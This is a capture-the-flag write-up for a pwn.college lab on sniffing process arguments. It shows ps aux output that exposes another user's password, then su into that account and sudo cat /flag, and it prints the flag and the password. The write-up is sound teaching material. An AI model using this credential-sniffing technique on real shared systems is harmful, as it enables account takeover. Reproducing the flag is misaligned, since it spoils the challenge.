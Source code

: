 # Silly Shenanigins

## Sniffing Process Arguments
Poor Zardus; you've hacked him pretty heavily. But he's wisened up and secured his home directory! Game over?

Not quite! One of the things that people often don't think about when there are multiple accounts on one computer is what kind of data their command invocations leak. Remember, when you do ps aux, you get:

```bash
hacker@dojo:~$ ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
hacker         1  0.0  0.0   1128     4 ?        Ss   05:34   0:00 /sbin/docker-init -- /bin/sleep 6h
hacker         7  0.0  0.0   2736   580 ?        S    05:34   0:00 /bin/sleep 6h
hacker       102  0.4  0.0 723944 64660 ?        Sl   05:34   0:00 /usr/lib/code-server/lib/node /usr/lib/code-serve
hacker       138  3.3  0.0 968792 106272 ?       Sl   05:34   0:07 /usr/lib/code-server/lib/node /usr/lib/code-serve
hacker       287  0.0  0.0 717648 53136 ?        Sl   05:34   0:00 /usr/lib/code-server/lib/node /usr/lib/code-serve
hacker       318  3.3  0.0 977472 98256 ?        Sl   05:34   0:06 /usr/lib/code-server/lib/node --dns-result-order=
hacker      1172  0.0  0.0   5892  2924 pts/0    R+   05:38   0:00 ps aux
hacker@dojo:~$
```

But what would happen if one of the arguments of one of those commands was something sensitive, like the flag or a password?

### Objective
Zardus is using an automation script, passing his account password to it as an argument. Zardus is also allowed to use sudo (and, thus, to sudo cat /flag!). Steal the password, log in to Zardus' account (recall the su command from the Untangling Users module), and get that flag!

### Solve
**Flag:** `pwn.college{Q-ZYpio3l5FA-bYo-2Y_sgHiGnA.QX4MTM3EDLygjN0czW}`

- As the challenge description states, some commands can require sensitive info like username and password as arguments and they can be easily visible by listing all the processes running at the time. Therefore, I used the `ps aux` command to list the processes. 
- From there, I found the password for the username zardus.
- Then, using `su` command, I logged in as zardus user and then used his privilege to get the flag using the `sudo cat /flag` command.


```bash
hacker@shenanigans~sniffing-process-arguments:~$ ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.3  0.0   1056   640 ?        Ss   15:03   0:00 /sbin/docker-init -- /nix/var/nix/profiles/dojo-workspace/bin/dojo-init /run/do
root           7  0.1  0.0 231708  2560 ?        S    15:03   0:00 /run/dojo/bin/sleep 6h
root         147  0.0  0.0   5204  3520 ?        S    15:03   0:00 su -c auto.sh --user zardus --pass pw_163612806 zardus
zardus       151  0.0  0.0   4132  2560 ?        Ss   15:03   0:00 /bin/bash /run/challenge/bin/auto.sh --user zardus --pass pw_163612806
zardus       152  0.0  0.0 231708  2560 ?        S    15:03   0:00 sleep 6h
hacker       165  0.1  0.0  36972 21760 ?        Sl   15:03   0:00 /nix/store/g0q8n7xfjp7znj41hcgrq893a9m0i474-ttyd-1.7.7/bin/ttyd --port 7681 --i
hacker       169  0.0  0.0 231940  4160 pts/0    Ss   15:03   0:00 /run/dojo/bin/bash --login
hacker       179  0.0  0.0 233600  3840 pts/0    R+   15:03   0:00 ps aux
hacker@shenanigans~sniffing-process-arguments:~$ su zardus
Password: 
zardus@shenanigans~sniffing-process-arguments:/home/hacker$ sudo cat/flag
sudo: cat/flag: command not found
zardus@shenanigans~sniffing-process-arguments:/home/hacker$ sudo cat /flag
pwn.college{Q-ZYpio3l5FA-bYo-2Y_sgHiGnA.QX4MTM3EDLygjN0czW}
```

### New Learnings
1. Even if we close the access to our files and directories, the process we run on the terminal might still be accessed. Some of those processes can contain important info like passwords and usernames. As a result, someone else can gain access to out accounts by using them.